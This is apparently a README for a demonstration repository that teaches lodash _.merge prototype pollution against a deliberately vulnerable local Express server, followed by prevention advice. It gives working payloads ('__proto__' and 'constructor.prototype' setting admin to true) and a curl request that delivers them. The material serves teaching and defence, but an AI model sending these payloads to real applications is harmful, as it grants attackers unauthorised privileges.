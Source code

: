 # Demonstration of _.merge pollution vulnerability

Prototype pollution is one of those security warnings that npm install sometimes outputs.
This repo demonstrates this exact security vulnerability: https://snyk.io/vuln/SNYK-JS-LODASHMERGE-173732.

Other links:

* How prototype pollution might lead to RCE: https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
* More real-world exploits: https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf
* https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c.


## Test it yourself

In the package.json, lodash has been specifically locked to vulnerable version `4.6.1`. Also express-validation is specifically using the 1. major version since it used to allow unknown properties in schemas.

* `git clone git@github.com:kimmobrunfeldt/lodash-merge-pollution-example.git`
* `cd lodash-merge-pollution-example`
* `npm i`
* `npm start` to start the express server
* Then in another console `curl -H"content-type: application/json" -d@attack.json http://localhost:9999/api/orders`
* After that the global object prototype has been polluted

    This means that whenever any part of the code for example creates a new object, it's prototype
    will have the properties given in [attack.json](attack.json).

    ```js
    const newObj = {};
    // newObj.admin equals now `true`
    ```

    The attack.json uses this:

    ```json
    "__proto__": { "admin": true }
    ```

    but it could be replace with the json below with same effect:

    ```json
    "constructor": { "prototype": { "admin": true } }
    ```

* If you call `curl http://localhost:9999/api/orders/0000` you can notice that the prototype pollution affects the whole node process.



## How to prevent this

Snyk has a good list how to prevent the vulnerability here: https://snyk.io/vuln/SNYK-JS-LODASHMERGE-173732#how-to-prevent.
Below are my personal main tactics to deal with the issue.

### Keep dependencies updated

By default npm will use a range of semver in package.json, so doing a re-install will also update
package-lock.json and should install the new security fixes.

For example `"lodash": "^4.6.1"` in package.json should now install the latest (at this moment) `4.17.15` version
since the hat character (`^`) allows semver minor and patch updates when the version is >= major 1.

#### package-lock.json dilemma

Locking dependencies with package-lock.json is definitely useful. Your production deployment doesn't
suddenly fail to a minor/patch update, if you install dependencies with `npm ci`. However it's
a double-edged sword: keeping versions locked doesn't break your apps functionality, but it might
allow newly found security vulnerabilities to creep longer in your app.


### Disallow unexpected input

In this example, we have [express-validation](https://github.com/andrewkeig/express-validation) which
is great. However the older version (1.x.x) allows unknown properties by default.

The newer version which is safer by default and disallows all unknown properties from schemas.

